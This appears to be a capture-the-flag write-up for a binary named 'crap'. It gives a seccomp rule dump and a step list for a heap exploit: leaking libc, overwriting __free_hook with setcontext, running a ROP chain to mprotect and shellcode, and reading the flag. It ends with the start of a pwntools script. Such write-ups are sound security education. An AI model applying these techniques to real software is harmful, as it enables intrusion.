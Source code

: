 ```nasm
 0017: 0x20 0x00 0x00 0x00000010  A = fd # write(fd, buf, count)
 0018: 0x15 0x00 0x01 0x00000001  if (A != 0x1) goto 0020
 0019: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0020: 0x06 0x00 0x00 0x00000000  return KILL

```

### Solution

!> Note: Only works in local (Ubuntu 19.04 & libc 2.29)

leak `main_arean` by printing `feedback` after free 

leak the base of `text` by searching the value of text base address in library `ld` .

> the offset between libc and ld does not change (in local)
>
> but the offset in local is different from it in remote

overwrite `write_count`,`read_count` to negative number and clean `feedback` 

overwrite `__free_hook` so we can control `rip` after `feedback` was freed

put `ropchain` and `shellcode` into `feedback` 

trigger rop by overwriting `__free_hook` to  `setcontext` 

call `mprotect` to make `heap` executable

`close(0)` to release `fd0` and open `flag` , `fd0` would be assigned to the flag file

read flag and write it

too lazy to say any more ...

and so poor python exp I was written... 

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './crap'
# local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = '/libc.so.6'

is_local = False
is_remote = False

# if len(sys.argv) == 1:
#     is_local = True
#     p = process(local_file)
#     libc = ELF(local_libc)
# elif len(sys.argv) > 1:
#     is_remote = True
#     if len(sys.argv) == 3:
#         host = sys.argv[1]
#         port = sys.argv[2]
#     else:
#         host, port = sys.argv[1].split(':')
#     p = remote(host, port)
#     libc = ELF(remote_libc)

# elf = ELF(local_file)

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)
```